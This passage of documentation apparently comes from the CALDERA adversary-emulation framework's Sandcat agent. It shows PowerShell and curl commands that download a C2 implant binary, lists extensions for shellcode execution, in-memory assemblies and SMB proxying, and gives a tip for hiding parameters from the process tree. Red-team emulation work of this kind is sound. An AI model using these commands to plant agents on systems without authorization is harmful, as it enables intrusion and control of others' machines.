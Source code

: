To request particular gocat extensions, users can 
include the `gocat-extensions` HTTP header when asking the C2 to compile an agent. The header value
must be a comma-separated list of requested extensions. The server will include the extensions in
the binary if they exist and if their dependencies are met (i.e. if extension A requires a particular
Golang module that is not installed on the server, then extension A will not be included).

Below is an example powershell snippet to request the C2 server to include the `proxy_http` and `shells` 
extensions:
```
$url="http://192.168.137.1:8888/file/download"; # change server IP/port as needed
$wc=New-Object System.Net.WebClient;
$wc.Headers.add("platform","windows"); # specifying Windows build
$wc.Headers.add("file","sandcat.go"); # requesting sandcat binary
$wc.Headers.add("gocat-extensions","proxy_http,shells"); # requesting the extensions
$output="C:\Users\Public\sandcat.exe"; # specify destination filename
$wc.DownloadFile($url,$output); # download
```

The following features are included in the stock agent:
- `HTTP` C2 contact protocol
- `psh` powershell executor (Windows)
- `sh` shell executor (Linux/Mac)

Additional functionality can be found in the following gocat extensions:
- `gist` extension provides the Github gist C2 contact protocol.
- `shells` extension provides the `cmd` (Windows cmd), `osascript` (Mac Osascript), and 
`pwsh` (Windows powershell core) executors.
- `shellcode` extension provides the shellcode executors.
- `proxy_http` extension provides the `HTTP` peer-to-peer proxy receiver.
- `proxy_smb_pipe` extension provides the `SmbPipe` peer-to-peer proxy client and receiver for Windows (peer-to-peer
communication via SMB named pipes).
- `donut` extension provides the Donut functionality to execute various assemblies in memory. 
See https://github.com/TheWover/donut for additional information.
- `shared` extension provides the C sharing functionality for 54ndc47.

#### Customizing Default Options & Execution Without CLI Options

It's possible to customize the default values of these options when pulling Sandcat from the CALDERA server.  
This is useful if you want to hide the parameters from the process tree. You can do this by passing the values
in as headers instead of as parameters.

For example, the following will download a linux executable that will use `http://10.0.0.2:8888` as the server address 
instead of `http://localhost:8888`.

```
curl -sk -X POST -H 'file:sandcat.go' -H 'platform:linux' -H 'server:http://10.0.0.2:8888' http://localhost:8888/file/download > sandcat.sh
```
